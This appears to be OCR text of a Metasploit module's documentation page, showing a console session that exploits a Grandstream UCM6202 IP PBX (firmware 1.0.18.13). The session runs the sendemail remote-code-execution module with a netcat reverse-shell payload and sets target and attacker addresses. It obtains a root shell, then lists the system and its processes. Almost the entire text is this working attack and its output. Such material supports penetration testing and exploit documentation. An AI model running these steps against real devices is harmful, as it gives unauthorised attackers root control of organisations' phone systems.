 ```
Revision	: 63015
Serial		: 1126b9d4eacb275c
```

### Grandstream UCM6202 IP PBX firmware version 1.0.18.13. Get reverse shell using netcat.

```
msf6 > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set target 0
target => 0
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51251 ) at 2022-01-15 12:19:18 -0800

whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
ps faux
PID   USER     TIME   COMMAND
    1 root       0:00 /sbin/init
    2 root       0:00 [kthreadd]
    3 root       0:05 [ksoftirqd/0]
    5 root       0:00 [kworker/u:0]
    6 root       0:00 [migration/0]
    7 root       0:00 [khelper]
    8 root       0:00 [kworker/u:1]
  156 root       0:00 [sync_supers]
  158 root       0:00 [bdi-default]
  160 root       0:00 [kblockd]
  186 root       0:00 [imx6q-ecspi.0]
  188 root       0:00 [imx6q-ecspi.2]
  197 root       0:00 [khubd]
  293 root       0:00 [rpciod]
  301 root       0:00 [usb_wakeup thre]
  304 root       0:00 [usb_wakeup thre]
  315 root       0:00 [kswapd0]
  316 root       0:00 [ksmd]
  317 root       0:00 [fsnotify_mark]
  318 root       0:00 [nfsiod]
  323 root       0:00 [crypto]
  438 root       0:00 [kworker/0:3]
  440 root       0:01 [mmcqd/0]
  441 root       0:00 [mmcqd/0boot0]
  442 root       0:00 [mmcqd/0boot1]
  564 root       0:00 udevd --daemon
 1477 root       0:00 [kworker/1:2]
 3677 root       0:00 [kworker/0:1]
 3716 root       0:00 [kworker/1:0]
 5347 root       0:00 [kworker/0:0]
```